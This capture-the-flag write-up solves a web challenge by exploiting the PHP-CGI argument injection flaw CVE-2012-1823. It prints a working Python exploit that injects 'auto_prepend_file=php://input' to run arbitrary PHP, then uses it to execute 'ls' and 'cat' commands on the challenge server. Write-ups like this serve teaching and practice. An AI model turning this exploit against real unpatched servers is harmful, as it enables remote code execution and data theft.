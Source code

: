 # Hypertext-Preprocessor
## Problem
> http://ctfq.sweetduet.info:10080/~q12/

## Solution
### 1. Access The Web Site
First, go to the [site](http://ctfq.sweetduet.info:10080/~q12/).  
It show you the time(?).

### 2. Search That Format
Second search it with Google.

In my case, I found this site.
> [CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823)
](http://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)

Maybe the target site has `CVE-2012-1823`.

### 3. Search PoC of CVE-2012-1823
Search PoC with [Exploit DB](https://www.exploit-db.com/) and, you can get [the PoC](https://www.exploit-db.com/exploits/18836/).
In this time, modification this code like here and crack site.

### 4. Modification Program
Modification Source is here.
```python
'''This code refer to rayh4c[0x40]80sec[0x2e]com'''

import socket
import sys


# basic infomation
HOST = 'ctfq.sweetduet.info'
PORT = 10080
CODE = 'set php code'

# set HTTP Request
pwn_code = '<?php %s;?>' %  CODE
post_Length = len(pwn_code)

http_raw='''POST /~q12/?-dallow_url_include%%3don+-dauto_prepend_file%%3dphp://input HTTP/1.1
Host: %s:%d
Content-Type: application/x-www-form-urlencoded
Content-Length: %s

%s
''' %(HOST, PORT, post_Length, pwn_code)
print '========== RESPONSE =========='
print http_raw

# send request
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((HOST, int(PORT)))
sock.send(http_raw)
data = sock.recv(10000)
print '========== REQUEST =========='
print repr(data)
sock.close()
```

#### 5. Send Request
##### i. Get File List
Then you may want to get file list.  
So update to substitute `CODE` to ``` echo(`ls`) ```.  
And find `flag_flag_flag.txt`.

##### ii. Get Flag
Finally you may want to get file list.  
So update to substitute `CODE` to ``` echo(`cat flag_flag_flag.txt`) ```.  
And get the flag.
